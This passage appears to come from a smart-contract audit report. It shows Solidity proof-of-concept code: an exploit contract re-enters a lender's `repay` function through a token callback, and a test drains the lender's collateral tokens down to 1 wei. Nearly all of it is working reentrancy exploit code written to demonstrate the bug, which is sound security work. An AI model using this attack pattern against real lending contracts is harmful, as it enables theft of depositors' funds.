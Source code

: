 ```solidity
        borrows[0] = b;        
        lender.borrow(borrows);
        loanBorrowed = true;
        // (5) Repay the loan
        uint256 loanId = 0;
        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = loanId;
        lender.repay(loanIds);
        // (7) Send the funds back to the attacker
        ERC20(_collateralToken).transfer(msg.sender, ERC20(_collateralToken).balanceOf(address(this)));   
    }

    function tokensReceived(address from, address to, uint256 /*amount*/) external {
        if (msg.sender == address(exploitToken)) {
            if (from == address(this) && to == address(lender) && loanBorrowed) {
                // (6) Re-enter the `repay` function (10 times for POC); 
                if (i < 10) {
                    i = i + 1;                    
                    uint256 loanId = 0;
                    uint256[] memory loanIds = new uint256[](1);
                    loanIds[0] = loanId;
                    lender.repay(loanIds);
                }          
            }
        }        
    }

}
```
Here are the tests that can be added to `Lender.t.sol` to illustrate the steps of an attacker:
```solidity
function test_exploit7() public {
	address attacker = address(0x5);
	// Setup
	collateralToken.transfer(address(lender), 10_000*10**18);
	collateralToken.transfer(address(attacker), 1_000*10**18 + 1); 

	// Before the exploit
	assertEq(collateralToken.balanceOf(address(lender)), 10_000*10**18);  // Lender contract has 10_000 collateralToken
	assertEq(collateralToken.balanceOf(address(attacker)), 1_000*10**18 + 1); // Attacker has 1_000 collateralToken

	// Exploit starts here
	vm.startPrank(attacker); // Attacker wants to drain all collateralTokens from the contract        
	Exploit7 attackContract = new Exploit7(lender, address(collateralToken));
	collateralToken.transfer(address(attackContract), 1_000*10**18 + 1);
	attackContract.attack(address(collateralToken));

	// After the exploit
	assertEq(collateralToken.balanceOf(address(lender)), 1);               // Lender contract has been drained (1 wei left)
	assertEq(collateralToken.balanceOf(address(attacker)), 11_000*10**18); // Attacker has stolen all the 10_000 collateralToken
}
```
